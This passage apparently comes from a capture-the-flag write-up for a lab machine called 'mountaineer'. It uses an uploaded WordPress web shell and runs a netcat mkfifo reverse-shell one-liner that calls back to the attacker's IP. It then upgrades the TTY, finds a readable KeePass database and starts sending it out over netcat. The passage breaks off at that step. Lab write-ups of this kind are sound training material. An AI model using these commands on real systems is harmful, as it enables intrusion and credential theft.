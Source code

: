 After running the exploit, we can confirm its success by visiting `http://mountaineer.thm/wordpress/wp-content/uploads/shell.php`.

![Web 80 Wordpress Shell](web_80_wordpress_shell.webp){: width="1400" height="800" }

Running the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f` in the `p0wny` shell, we obtain a shell as the `www-data` user.

![Web 80 Wordpress Shell Two](web_80_wordpress_shell2.webp){: width="1400" height="800" }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.146.154] 48056
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ export TERM=xterm
export TERM=xterm
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

www-data@mountaineer:~/html/wordpress/wp-content/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as kangchenjunga

### Discovering the KeePass Database

Checking the files in the home directories, we find a **KeePass** database at `/home/lhotse/Backup.kdbx`, owned by the `lhotse` user, which we are able to read.

```console
www-data@mountaineer:/home$ find . -type f 2>/dev/null
./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./nanga/ToDo.txt
./lhotse/Backup.kdbx

www-data@mountaineer:/home$ ls -la /home/lhotse/Backup.kdbx
-rwxrwxrwx 1 lhotse lhotse 2302 Apr  6  2024 /home/lhotse/Backup.kdbx
```

We can use `netcat` to transfer it to our machine.

```console
$ nc -lvnp 444 > Backup.kdbx
listening on [any] 444 ...
```

